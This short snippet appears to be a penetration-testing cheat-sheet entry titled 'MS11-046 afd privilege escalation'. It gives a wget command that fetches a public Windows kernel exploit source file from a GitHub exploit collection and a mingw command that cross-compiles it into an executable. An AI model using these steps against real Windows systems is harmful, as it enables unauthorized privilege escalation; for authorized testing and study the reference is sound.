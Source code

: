 
# MS11-046 afd privilege escalation

```bash
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-046/CVE-2011-1249.c

i686-w64-mingw32-gcc CVE-2011-1249.c -lws2_32 -o ms11-046.exe
```